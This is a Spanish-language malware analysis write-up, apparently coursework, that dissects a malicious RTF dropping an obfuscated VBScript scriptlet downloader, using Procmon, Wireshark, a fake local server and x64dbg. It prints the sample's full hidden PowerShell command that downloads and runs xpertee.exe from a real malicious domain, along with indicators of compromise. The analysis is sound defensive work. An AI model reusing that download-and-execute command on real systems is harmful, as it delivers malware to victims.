| URL de descarga  | `hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe` |
| Recurso HTTP     | `/i/xpertee.exe`                                  |
| Método observado | `GET /i/xpertee.exe HTTP/1.1`                     |


## **6.4 Procesos y comandos**
| Indicador                                                              | Descripción                                                    |
| ---------------------------------------------------------------------- | -------------------------------------------------------------- |
| `WINWORD.EXE`                                                          | Proceso que abre el RTF y crea el `.scT` temporal.             |
| `wscript.exe`                                                          | Ejecuta el scriptlet/VBScript durante las pruebas controladas. |
| `powershell.exe`                                                       | Rama alternativa de descarga y ejecución.                      |
| `PowerShell -NoP -sta -NonI -W Hidden -ExecutionPolicy bypass -NoLogo` | Comando ofuscado para descargar y ejecutar el payload.         |
| `System.Net.WebClient.DownloadFile`                                    | Descarga remota del ejecutable.                                |
| `Start-Process`                                                        | Ejecución del payload descargado.                              |


## **6.5 Objetos COM y técnicas asociadas**
| Objeto / técnica             | Uso                                                       |
| ---------------------------- | --------------------------------------------------------- |
| `MSXML2.XMLHTTP.3.0`         | Realiza la petición HTTP al recurso remoto.               |
| `ADODB.Stream`               | Guarda en disco el contenido descargado.                  |
| `WScript.Shell`              | Ejecuta comandos y lanza PowerShell.                      |
| `Scripting.FileSystemObject` | Comprueba y manipula ficheros.                            |
| `Msxml2.DOMDocument`         | Decodifica cadenas Base64.                                |
| `ExecuteGlobal`              | Ejecuta código reconstruido dinámicamente.                |
| Base64                       | Oculta la URL y el nombre del payload.                    |
| Concatenación de cadenas     | Evita que indicadores aparezcan completos en texto plano. |


# **8. Análisis dinámico**
## **8.1 Preparación de la máquina virtual**
### **8.1.1 Process Monitor**
### **8.1.2 Process Explorer**
### **8.1.3 Regshot**
### **8.1.4 Wireshark**
### **8.1.5 Microsoft Office vulnerable**
## **8.2 Ejecución de la muestra**
## **8.3 Creación del fichero .scT temporal**
## **8.4 Consulta de asociación .sct en el registro**
## **8.5 Escritura del scriptlet en disco**
## **8.6 Eliminación del .scT temporal**
## **8.7 Captura del scriptlet con watcher**

# **9. Simulación de infraestructura**
## **9.1 Error inicial de conexión**
## **9.2 Redirección del dominio mediante hosts**
## **9.3 Servidor HTTP controlado**
## **9.4 Descarga simulada de xpertee.exe**
## **9.5 Evidencias en Wireshark**
## **9.6 Evidencias en Process Monitor**

# **10. Análisis avanzado con x64dbg**
## **10.1 Preparación del depurador**
## **10.2 Breakpoints relevantes**
## **10.3 Conexión HTTP con InternetConnectW**
## **10.4 Petición GET con HttpOpenRequestW**
## **10.5 Envío de petición con HttpSendRequestW**
## **10.6 Lectura del payload con InternetReadFile**
## **10.7 Creación de fichero en caché WinINet**
## **10.8 Ejecución de PowerShell**
## **10.9 Creación del fichero hrjytrj.cmd**
## **10.10 Confirmación de las dos vías de descarga**

# **11. Cadena de infección reconstruida**

# **12. Conclusiones**


-------

## **1.4 Script desofuscador universal**


-----
----------
RECOMPONIENDO ORDEN
---------


------


# **9. Análisis dinámico**
El análisis dinámico se realiza en una máquina virtual Windows aislada, con herramientas de monitorización de procesos, sistema de ficheros, registro y red. El objetivo es observar el comportamiento de la muestra al abrir el documento RTF y, posteriormente, reproducir de forma controlada la lógica del script extraído.


## **9.1 Preparación de la Máquina Virtual**

Se utilizaron las siguientes herramientas:
```
Process Monitor  → monitorización de procesos, ficheros, registro y red
Process Explorer → inspección de procesos, PID, PPID y líneas de comandos
Regshot          → comparación de cambios en registro y sistema
Wireshark        → captura de tráfico de red
x64dbg           → depuración del script extraído
Office 2003      → entorno vulnerable/compatible para la ejecución del RTF
```

### **A) Process Monitor**
**Ejecutamos Process Monitor y establecemos los siguientes filtros:**
```
Process Name is WINWORD.EXE      Include
Process Name is wscript.exe      Include
Process Name is powershell.exe   Include
Path contains .sct               Include
Path contains Abctfh             Include
Path contains xpertee            Include
Path contains eddyholdingshuttle Include
Operation is TCP Connect         Include
```

### **B) Process Explorer**
Configuracón para Process Explorer:
```
Run as administrator
View > Select Columns > PID, Parent PID, Command Line, Image Path, Verified Signer
```


----

### **C) Regshot**
Tomamos dos snapshot, una previa y otra posterior a la ejecución para compararlas.

Comparación de los dos snapshots: [compare-snapshot-regshot.txt](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/compare-snapshot-regshot.txt)


-----

### **D) Wireshark**
**Filtro recomendado para wireshark:**
```
dns or http
http
frame contains "eddyholdingshuttle"
frame contains "xpertee"
```


### **E) Microsoft Office antiguo**
Buscamos una versión antigua del programa, en este caso un Microsot Office 2003.


-----


## **9.2 Ejecución el documento RTF**

**Ejecutamos el documento `9da7d051bdf010d86a461d407c30d40f57d495fb6a5d22735ff792724bc3831e.rtf`:**  


-----

**Muestra advertencias:** Al abrir el documento RTF con Microsoft Word se muestran advertencias de seguridad relacionadas con la apertura de contenido vinculado o embebido.


-----


**Con procmon vemos que el documento rtf crea un fichero en la carpeta `C:\Users\usuario\AppData\Local\Temp\`:**  


-----


**Inicio exacto de la creación del `.scT`:**  
  

Secuencia:
```
WINWORD.EXE → consulta HKCR\.sct
WINWORD.EXE → HKCR\.sct\(Default) = scriptletfile
WINWORD.EXE → comprueba si existe el .scT en %TEMP%
WINWORD.EXE → NAME NOT FOUND
WINWORD.EXE → crea el .scT
WINWORD.EXE → WriteFile sobre el .scT
``` 

Donde vemos:
```
Path:
C:\Users\usuario\AppData\Local\Temp\Abctfhghgdghghž.scT

Operation:
CreateFile

Result:
NAME NOT FOUND
``` 

Es una comprobación previa: Word pregunta si ya existe el fichero. La respuesta es no. Justo después aparece otro `CreateFile` sobre la misma ruta con:
``` 
Result: SUCCESS
Desired Access: Generic Write, Read Attributes
```

Eso ya es la creación real del fichero. Luego viene:
``` 
WriteFile
Offset: 0
Length: 4096
```

La consulta a:
```
HKCR\.sct\(Default) = scriptletfile
```
es relevante porque indica que Windows reconoce la extensión`.sct` como un scriptlet file. 

-----

**Búsqueda fallida con `%TMP%`:**  
Durante la ejecución también se observan múltiples intentos de WINWORD.EXE de resolver rutas como:
```
%TMP%\abctfhghgdghghž.SCT
```


Sin embargo, `%TMP%` no se está expandiendo a la ruta real temporal. Windows lo trata como texto literal y lo busca dentro de distintas carpetas del PATH. Por eso vemos rutas como:
```
C:\Python310\Scripts\%TMP%\abctfhghgdghghž.SCT
``` 


-----


**Eliminación del `.scT` temporal:**
Tras la creación y lectura del fichero .sct, WINWORD.EXE lo marca para eliminación mediante la operación:
``` 
SetDispositionInformationEx
```

Con el flag:
```
FILE_DISPOSITION_DELETE
```

<mark>Este comportamiento explica por qué el fichero no permanecía en `%TEMP%` al buscarlo manualmente.</mark>


-----

**Quién ordena el borrado del `.scT` y cual es operación concreta usa Windows para eliminarlo:**  


En la pestaña Process se ve que el proceso responsable es:
```
Name: WINWORD.EXE
Version: 11.0.5604
Path: C:\Program Files (x86)\Microsoft Office\OFFICE11\WINWORD.EXE
Command Line: "...\WINWORD.EXE" /n /dde
PID: 132
User: DESKTOP-CTQQHGT\usuario
Architecture: 32-bit
Integrity: Medium
```

Y en la pestaña Event del mismo evento se ve la flag `SetDispositionInformationEx`:  

```
Name: WINWORD.EXE
Version: 11.0.5604
Path: C:\Program Files (x86)\Microsoft Office\OFFICE11\WINWORD.EXE
Command Line: "...\WINWORD.EXE" /n /dde
PID: 132
User: DESKTOP-CTQQHGT\usuario
Architecture: 32-bit
Integrity: Medium
``` 

Donde: `SetDispositionInformationEx + FILE_DISPOSITION_DELETE` significa ue `WINWORD.EXE` marca el fichero `.scT` para borrado.


---------


**Secuencia:**
```
1. WINWORD.EXE consulta HKCR\.sct → scriptletfile.
2. WINWORD.EXE comprueba si existe el .sct → NAME NOT FOUND.
3. WINWORD.EXE crea el .sct → SUCCESS.
4. WINWORD.EXE escribe el .sct → WriteFile.
5. WINWORD.EXE lee/consulta el .sct.
6. WINWORD.EXE lo marca para borrado → FILE_DISPOSITION_DELETE.
```


----

**Captura del payload intermedio:**
Para capturar el `.scT` antes de su eliminación utilizaremos un watcher en PowerShell. El script monitoriza `%TEMP%` y copia cualquier fichero `.sct` o con patrón `Abctfh*` a una carpeta de captura: [watcher_sct.ps1.](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/watcher_sct.ps1)


**Vemos el fichero que genera el watcher y que contiene el payload:**


------

**Vemos el contenido de este fichero. Es un script Visual Basic:**


  


-----


El fichero capturado: [Abctfhghgdghghž.scT.](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/Abctfhghgdghgh%C5%BE.scT)


Posteriormente se copió como: [sct_payload.txt.](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/sct_payload.txt)

Limpiamos el fichero payload para que sea un script plenamente operativo: [salida.vbs](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/salida.vbs)

Usando un [script ps](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/script-ps-sanitizar.ps1), sanitizamos el contenido del script capturado para ver su funcionamiento: [sct_report_sanitizado.txt](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/6-M9T6/utiles/sct_report_sanitizado.txt)


**<mark>El análisis del contenido confirma que se trata de un scriptlet/VBScript downloader ofuscado. El script utiliza:</mark>**
```
ExecuteGlobal
MSXML2.XMLHTTP
ADODB.Stream
WScript.Shell
Base64
PowerShell
System.Net.WebClient.DownloadFile
```

**<mark>Las cadenas decodificadas identifican la URL de descarga y el nombre de la segunda etapa:</mark>**
```
hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe
xpertee[.]exe
```


-----

**Ejecución controlada del script extraído:**

Ejecutar el script pero se produce un error:   


```
Error: El sistema no puede encontrar el recurso especificado.
Código: 800C0005
Origen: msxml3.dll
```
Al ejecutar el script salida.vbs extraído de la muestra mediante `wscript.exe //X //D`, Windows Script Host generó un error con código `800C0005` y origen `msxml3.dll`. Este error es compatible con un fallo en una petición HTTP realizada mediante componentes MSXML, probablemente porque el recurso remoto utilizado por la muestra `http://bit.ly/34vzFlU` ya no está disponible o no es accesible desde la máquina virtual.

Por tanto, aunque el script se ejecuta, no se consigue completar la fase de descarga del payload. <mark>La diferencia con el vídeo del profesor puede deberse a que en su entorno el recurso remoto seguía disponible.</mark>


----------------------

**Servidor web Fake:**

Simularemos un servidor para que el script reciba una respuesta `HTTP 200 OK` y podamos observar qué hace el script después.

Modificaremos `hosts`, usando la propia máquina virtual como servidor falso. En la VM editamos como administrador:
```
C:\Windows\System32\drivers\etc\hosts
```
Añadimos una línea apuntando el dominio a la IP de nuestra propia VM:
```
<ip de la máquina virtual del laboratorio> eddyholdingshuttle.co.za
```

Hacmos un ping para ver si funciona:  


----------------------

**Montamos una respuesta `HTTP` falsa en la VM del laboratorio:**
```
mkdir -p C:\tmp\fakesite\i
cd C:\tmp\fakesite\
```

Creamos un fichero falso con el nombre que espera la muestra:
```
echo "FAKE_PAYLOAD_FOR_ANALYSIS" > C:\tmp\fakesite\i\xpertee.exe
```

Levantamos un servidor HTTP en el puerto 80. Debemos estar en la carpeta `fakesite`. En caso contrario se producirán errores `NOT FOUND 404`:
```
python3 -m http.server 80 --bind 0.0.0.0
```


Comprobamos si funciona. Desde otra terminal:
```
curl http://eddyholdingshuttle.co.za/i/xpertee.exe
```

Vemos como el servidor recibe las peticiones correctamente pero se producen errores ya que lancé el servidor `HTTP` en un terminal diferente y no estaba en el path correcto:


---------------------------------

**Volvemos a ejecutar el script. Pero obtenemos un nuevo error:**


El script está intentando ejecutar una línea:
```
Set objFile = writer.CreateTextFile(outFile, True)
```
Pero el objeto writer no existe o no ha sido inicializado. En VBScript, para poder usar `.CreateTextFile`, antes tendría que existir algo así:
```
Set writer = CreateObject("Scripting.FileSystemObject")
```

<mark>El script extraído no está completo o no está perfectamente reconstruido.</mark>

<mark>Para continuar la ejecución controlada, vamos a corregir manualmente el script añadiendo esta línea antes de la línea 373:</mark>


------------------------------------

**Volvemos a ejecutar el script y ya funciona sin erorres.**

**Comprobamos en wiresharK:**  

donde vemos que origen y destino son `10.0.0.4` ya que estamos capturando en loopback. Se confirma el intento de descarga.


--------

**Confirmamos la activación de la fase de descarga:**


```
TCP 49678 → 80
HTTP GET /i/xpertee.exe HTTP/1.1
Host: eddyholdingshuttle.co.za
Full request URI: http://eddyholdingshuttle.co.za/i/xpertee.exe
``` 

La cadena se activó más allá del drop del `.sct`. El `scriptlet/downloader` llegó a realizar una petición `HTTP GET` para descargar `/i/xpertee.exe` desde `eddyholdingshuttle.co.za`. 

-------

**En Wireshark: `Follow → HTTP Stream` sobre esa petición `Get`:**   


Detalle del terminal donde se ejecuta el servidor HTTP:  


En Wireshark se ve:
```
GET /i/xpertee.exe HTTP/1.1
Host: eddyholdingshuttle.co.za
```
y el servidor responde correctamente:
```
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.11
Content-type: application/x-msdownload
Content-Length: 56
```

Vemos en el cuerpo de la respuesta contiene el fichero inocuo:
```
FAKE_PAYLOAD_FOR_ANALYSIS
```

Detalle del fichero que el malware ha creado:  


<mark>Ahora tenemos la prueba de una descarga simulada completada.</mark>


------- 

**Comprobamos en procmon la conexión `HTTP`:**  


El proceso responsable es:
```
Process: wscript.exe
PID: 1036
Path: C:\Windows\System32\wscript.exe
User: DESKTOP-CTQQHGT\usuario
```
Y ProcMon muestra:
```
Operation: TCP Connect
Result: SUCCESS
Path: eddyholdingshuttle.co.za:49678 -> eddyholdingshuttle.co.za:http
```


<mark>wscript.exe ejecuta el script corregido, que provoca la descarga de `xpertee.exe` en `%APPDATA%`. La escritura puede producirse por la rama `MSXML/WinINet` o por la rama `PowerShell/WebClient`.</mark>

-------

# **Análisis avanzado con x64dbg**

Los breakpoints sobre APIs de red y ejecución deben establecerse una vez cargadas las DLL correspondientes en el proceso depurado. En esta muestra, los puntos de ruptura más relevantes fueron los asociados a WinINet (`InternetConnectW`, `HttpOpenRequestW`, `HttpSendRequestW`, `InternetReadFile`), ya que permitieron observar la conexión a `eddyholdingshuttle.co.za`, la solicitud `GET /i/xpertee.exe`, el envío de la petición y la lectura del payload dummy. Adicionalmente, `CreateProcessW` permitió confirmar el lanzamiento de PowerShell y `CreateFileW`/`WriteFile` permitieron seguir la creación/escritura de artefactos en disco.
```
bp kernelbase.CreateProcessW
bp kernel32.CreateProcessW
bp kernelbase.WinExec
bp shell32.ShellExecuteW
bp shell32.ShellExecuteExW

bp wininet.InternetConnectW
bp wininet.HttpOpenRequestW
bp wininet.HttpSendRequestW
bp wininet.InternetReadFile

bp kernelbase.CreateFileW
bp kernelbase.WriteFile
bp ntdll.NtWriteFile
```


------

**Abrimos x64dbg como administrador y cargamos:**

Para observar el comportamiento del script a nivel de API, se ejecuta `wscript.exe` bajo `x64dbg` con el script corregido como argumento:
``` 
C:\Windows\System32\wscript.exe "C:\Users\usuario\Desktop\salida\salida-corregido.vbs"
```

-------

**Donde `wscript.exe` está abriendo el script que le hemos pasado por línea de comandos:**  


--------

**Conexión HTTP con WinINet:**
Obtenemos una evidencia clara de conexión de red desde el script:


Estamos en:
``` 
wininet.dll!InternetConnectW
```
y los argumentos muestran:
```
RDX → "eddyholdingshuttle.co.za"
R8  → 0x50
```
`0x50` en hexadecimal es `80` en decimal, es decir, `HTTP`.

Interpretación:
```
wscript.exe
 → wininet.InternetConnectW
 → servidor: eddyholdingshuttle.co.za
 → puerto: 80
```
Esto confirma a nivel de API que el script no sólo contiene la URL, sino que llama a `WinINet` para abrir una conexión `HTTP` contra el dominio malicioso.

------------

**Confirmamos el método `HTTP` y el recurso solicitado a nivel de `API WinINet`:**


Estamos parado en:
```
wininet.dll!HttpOpenRequestW
```
y los argumentos muestran:
```
RDX → "GET"
R8  → "/i/xpertee.exe"
```
Es decir:
```
wscript.exe
 → InternetConnectW("eddyholdingshuttle.co.za", 80)
 → HttpOpenRequestW("GET", "/i/xpertee.exe")
```
Esto confirma en `x64dbg` exactamente lo mismo que vimos en `Wireshark`, pero desde dentro del proceso:
```
GET /i/xpertee.exe HTTP/1.1
Host: eddyholdingshuttle.co.za
```

----------

**Confirmamos que la petición `HTTP` ya no sólo está preparada, sino que se está enviando:**


Estamos en:
```
wininet.dll!HttpSendRequestW
```
La secuencia confirmada en x64dbg queda:
```
wscript.exe
 → InternetConnectW("eddyholdingshuttle.co.za", 80)
 → HttpOpenRequestW("GET", "/i/xpertee.exe")
 → HttpSendRequestW(...)
```
Es decir, el script corregido:
```
1. Resuelve/conecta con eddyholdingshuttle.co.za por HTTP.
2. Prepara una petición GET para /i/xpertee.exe.
3. Envía la petición al servidor.
```

-------

**WinINet / el motor de descarga usado por el script está creando o abriendo el fichero descargado en la caché de Internet Explorer:**


Vemos en la pila la URL:
```
http://eddyholdingshuttle.co.za/i/xpertee.exe
```
y el retorno hacia:
```
wininet.InternetQueryDataAvailable
```

Flujo: `wscript.exe → WinINet → descarga HTTP → creación de fichero temporal/cache xpertee[1].exe`.

------

En este breakpoint, anotamos la ruta xpertee[1].exe.

Pulsamos  `Ctrl+F9` para ejecutar hasta el retorno de `CreateFileW`.


Miramos RAX que es el handle si la llamada tuvo éxito: `RAX = 0000000000000558`. Eso significa que CreateFileW ha devuelto un handle válido al fichero que acababa de abrir/crear. Ese handle 0x558 corresponde al fichero de caché:
```
C:\Users\usuario\AppData\Local\Microsoft\Windows\INetCache\IE\BZWF0QUM\xpertee[1].exe
```

Confirmamos en x64dbg:
```
wscript.exe / WinINet → CreateFileW → xpertee[1].exe en INetCache
```

-------

**Confirmamos que `wscript.exe` ya está leyendo la respuesta `HTTP`:**


Estmos en:
```
wininet.dll!InternetReadFile
```
y los argumentos relevantes son:
```
RCX = hInternet
RDX = buffer donde se copiarán los datos leídos
R8  = tamaño máximo a leer
R9  = puntero a número de bytes leídos
```

En la captura que vemos:
```
RDX = 000000B4B756B960
R8  = 0x38
```
Donde `0x38` son `56` bytes, que coincide con el tamaño del fichero fake que sirve el servidor web python.

-----------

**Estando parados en ese punto, pulsamos `Ctrl + F9` para volver de `InternetReadFile`:**


Comprobamos que ha tenido éxito la operación ya que `RAX != 0`. Eso significa que `InternetReadFile` ha tenido éxito.

Tambien vemos en el dump el contenido leido por `InternetReadFile`:
```
FAKE_PAYLOAD_FOR_ANALYSIS
```

Esto confirma a nivel de depurador que `wscript.exe` no sólo envió la petición `HTTP`, sino que recibió el contenido del fichero servido como `xpertee`.exe.

---------


**Vemos como wscript.exe lanza PowerShell:**  


Estamos parados en:
```
kernelbase.CreateProcessW
```
y se ven los argumentos principales:
```
RCX = lpApplicationName
RDX = lpCommandLine
```
En la captura:
```
RCX → C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
RDX → L"\"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\" -NoP -sta -NonI -W Hidden -ExecutionPolicy bypass -NoLogo -command \"(New-Object System.Net.WebClient).DownloadFile('httP://eddyholdingshuttle.co.za/i/xpertee.exe','C:\\Users\\usuario\\AppData\\Roaming\\xpertee.exe');Start-Process 'C:\\Users\\usuario\\AppData\\Roaming\\xpertee.exe'\""
```

Esto confirma que el script corregido no sólo descarga vía wscript.exe/WinINet, sino que también intenta lanzar PowerShell con los parámetros ofuscados/ocultos que habíamos visto en el código:
```
-NoP
-sta
-NonI
-W Hidden
-ExecutionPolicy bypass
``` 

---------


**Primera petición `HTTP GET`:**   


----------

**Comprobamos si tiene éxito:**  Estando parado en ese punto, pulsamos `Ctrl+F9` para volver de `CreateProcessW` y miramos `RAX`. Si vale `!=0` entonces es que ha tenido éxito:


Comprobamos que `RAX = 0000000000000001`, luego ha tenido éxito. 


--------------

**Parece que crea más cosas de las que nos esperabamos:**


El script no sólo descarga `xpertee.exe`, también contiene lógica adicional para crear un `.cmd`. En la captura de x64dbg estamos detenidos en:
```
kernelbase.CreateFileW
```
y el argumento RCX apunta a:
```
C:\ProgramData\hrjytrj.cmd
```
Además, en el Explorador se ve el fichero:
```
C:\ProgramData\hrjytrj.cmd
Tipo: Script de comandos
Tamaño: 0 KB
```

-----------

**Comprobamos si el paso anterior tiene éxito:** Pulsamos `Ctrl+F9` y miramos `RAX`:  


```
RAX = 00000000000006F8
```

Ha tenido éxito. Avanzamos un poco y vamos a intentar ver qué escribe en ese fichero.


---------


**Invocación de PowerShell**  
Vemos la command line completa antes de lanzar PowerShell:


Estamos parados en:
```
shell32.dll!ShellExecuteExW
```
y en los argumentos se aprecia:
```
L"PowerShell"
L"-NoP -sta -NonI -W Hidden -ExecutionPolicy bypass -NoLogo -command \"(New-Object System.Net.WebClient).DownloadFile('httP://eddyholdingshuttle.co.za/i/xpertee.exe','C:\\Users\\usuario\\AppData\\Roaming\\xpertee.exe');Start-Process 'C:\\Users\\usuario\\AppData\\Roaming\\xpertee.exe'\""
```

Durante la depuración con x64dbg se interceptó una llamada de `wscript.exe` a `shell32.dll!ShellExecuteExW`. Los parámetros de la llamada muestran la ejecución de `PowerShell` con los argumentos `-NoP -sta -NonI -W Hidden -ExecutionPolicy bypass -NoLogo`. La línea de comandos construida incluye `(New-Object System.Net.WebClient).DownloadFile('httP://eddyholdingshuttle.co.za/i/xpertee.exe','C:\Users\usuario\AppData\Roaming\xpertee.exe');Start-Process 'C:\Users\usuario\AppData\Roaming\xpertee.exe'`, confirmando que el script intenta descargar la segunda etapa en `%APPDATA%` y ejecutarla posteriormente.


----------


**A veces se lanza una segunda petición `HTTP GET`:**
<mark>El script contiene dos vías de descarga hacia el mismo recurso. En una ejecución completa pueden observarse dos peticiones GET, pero la segunda debe confirmarse con tráfico de powershell.exe o evidencia equivalente.</mark>


El análisis del script `.vbs` confirma dos mecanismos de descarga, por lo que puede producir dos peticiones `HTTP GET` al mismo recurso, aunque no necesariamente en todos los entornos o ejecuciones. Hay veces que sólo hace una petición y en otra depuración del script hace las dos.

Hay dos rutas claras:
1. Descarga directa desde `VBScript/MSXML2.XMLHTTP`: El script crea un objeto `msxml2.xmlhttp.3.0`, abre una petición con método `GET` hacia `strlink` y luego ejecuta el envío:
```
objhtxtpdownload.open "get " , strlink, anny
objhtxtpdownload.send
```
Esto corresponde a la cadena que vimos en x64dbg con `WinINet`:
```
InternetConnectW → eddyholdingshuttle.co.za:80
HttpOpenRequestW → GET /i/xpertee.exe
HttpSendRequestW
InternetReadFile
```

2. Descarga secundaria mediante `PowerShell/WebClient`: El script construye una línea de PowerShell con:
```
(New-Object System.Net.WebClient).DownloadFile('<URL>', '%appdata%\xpertee.exe');
Start-Process '%appdata%\xpertee.exe'
```


-----------------

**El script termina.**


--------------

# **10. Conclusiones**

El análisis dinámico confirma que el documento RTF es malicioso y que activa una cadena de ejecución basada en la extracción de un scriptlet .sct, cuyo objetivo es descargar y ejecutar una segunda etapa denominada xpertee.exe.

Durante la apertura del RTF se observó que WINWORD.EXE crea el fichero temporal:
```
C:\Users\usuario\AppData\Local\Temp\Abctfhghgdghghž.scT
```
ProcMon confirmó que WINWORD.EXE realiza operaciones CreateFile y WriteFile sobre dicho fichero. Posteriormente, Word consulta la asociación de la extensión .sct en el registro, identificada como scriptletfile y text/scriptlet, y finalmente marca el fichero para eliminación mediante:
```
SetDispositionInformationEx
FILE_DISPOSITION_DELETE
```
Esto explica que el .sct no permaneciera en disco tras la ejecución. El watcher permitió capturarlo antes de su borrado.

El contenido capturado y sanitizado del .sct confirma que se trata de un downloader VBScript/scriptlet ofuscado. El script utiliza ExecuteGlobal, MSXML2.XMLHTTP, ADODB.Stream, WScript.Shell, decodificación Base64 y construcción dinámica de comandos. Las cadenas decodificadas identifican la URL de descarga y el nombre de la segunda etapa: hxxp://eddyholdingshuttle.co.za/i/xpertee[.]exe y xpertee[.]exe.

Durante la prueba controlada se modificó el fichero hosts de la VM para redirigir eddyholdingshuttle.co.za hacia la propia máquina. Wireshark confirmó la petición HTTP:
```
GET /i/xpertee.exe HTTP/1.1
Host: eddyholdingshuttle.co.za
```
Tras servir un fichero dummy como xpertee.exe, el servidor local respondió HTTP/1.0 200 OK, y se verificó la descarga del fichero en:
```
C:\Users\usuario\AppData\Roaming\xpertee.exe
```
La depuración con x64dbg permitió confirmar a nivel de API la rama de descarga desde wscript.exe:
```
InternetConnectW → eddyholdingshuttle.co.za:80
HttpOpenRequestW → GET /i/xpertee.exe
HttpSendRequestW → envío de la petición
InternetReadFile → recepción del contenido dummy
```
Además, se identificó un segundo mecanismo de descarga construido por el script: wscript.exe invoca PowerShell mediante ShellExecuteExW con una línea de comandos que utiliza System.Net.WebClient.DownloadFile para descargar de nuevo xpertee.exe en %APPDATA% y posteriormente ejecutarlo con Start-Process.

La línea observada es equivalente a:
```
powershell.exe -NoP -sta -NonI -W Hidden -ExecutionPolicy bypass -NoLogo -command "(New-Object System.Net.WebClient).DownloadFile('httP://eddyholdingshuttle.co.za/i/xpertee.exe','C:\Users\usuario\AppData\Roaming\xpertee.exe');Start-Process 'C:\Users\usuario\AppData\Roaming\xpertee.exe'"
```


Por tanto, el script contiene dos vías de descarga hacia el mismo recurso:
```
1. MSXML2.XMLHTTP / WinINet desde wscript.exe
   → GET /i/xpertee.exe

2. PowerShell / System.Net.WebClient.DownloadFile
   → posible segunda petición GET a /i/xpertee.exe
```

En conclusión, la muestra debe clasificarse como RTF malicioso con objeto embebido que despliega un scriptlet downloader. El análisis confirma la extracción del .sct, su eliminación temporal, la comunicación HTTP con la infraestructura configurada, la descarga controlada de xpertee.exe y la existencia de una segunda vía de descarga mediante PowerShell/WebClient. La ejecución de una segunda etapa maliciosa real no fue evaluada; se sustituyó por un payload dummy para mantener la prueba contenida.
